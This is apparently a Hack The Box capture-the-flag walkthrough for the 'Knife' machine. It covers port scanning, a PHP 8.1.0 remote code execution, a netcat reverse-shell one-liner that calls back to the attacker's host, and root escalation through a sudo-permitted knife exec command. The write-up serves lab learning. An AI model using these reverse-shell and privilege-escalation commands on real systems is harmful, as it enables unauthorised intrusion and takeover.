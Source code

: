 # knife HTB , 27 JUL 2021
![1_qkA2OJOWUvxXtoCGclOUbw](https://user-images.githubusercontent.com/67979878/127178999-d2c484e6-bc69-4cf3-bf1d-c40443fa8fc9.png)



SCANNING
========
basic scanning
---------------
$nmap -sV -v -sC -oN nmap/intial 10.10.10.242

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```
full scanning
-------------
$ nmap -sV -v -oN -p- nmap/all 10.10.10.242 

-no more ports :(



ENUMRATION
===========

$ gobuster dir -u "http://10.10.10.242/" -w=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt | tee gobuster.txt



-no results which is weird :( .



### taking a look at wappalayzer : php 8.1.0
#### by searching for it found a possible rce and it is verified .


running script we got a shell as "james"



## Reverse shell :
-on my side :

$bash

$nc -lvp 1234

-on target :

$rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc your_ip 1234 >/tmp/f


## Stable shell :

$python3 -c "import pty;pty.spawn('/bin/bash')"

ctrl+z

$stty raw -echo

$fg

james@machine:~$export TERM=xterm 




privilege escalation 
--------------------

$sudo -l 

```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

```

show knife options : 
"the interesting ones :"



```
options :    -e, --editor EDITOR              Set the editor to use for interactive commands.

Available subcommands :

knife acl add MEMBER_TYPE MEMBER_NAME OBJECT_TYPE OBJECT_NAME PERMS
knife group add MEMBER_TYPE MEMBER_NAME GROUP_NAME
knife group list
knife user create USERNAME DISPLAY_NAME FIRST_NAME LAST_NAME EMAIL PASSWORD (options)
sudo knife ssh QUERY COMMAND -i -v




```

$file /usr/bin/knife is a s symbolic reference for an opt that can run ruby script .


$sudo knife exec -e "system('/bin/bash')"

type the script :

system('/bin/bash')

ctrl+D

#rooted .
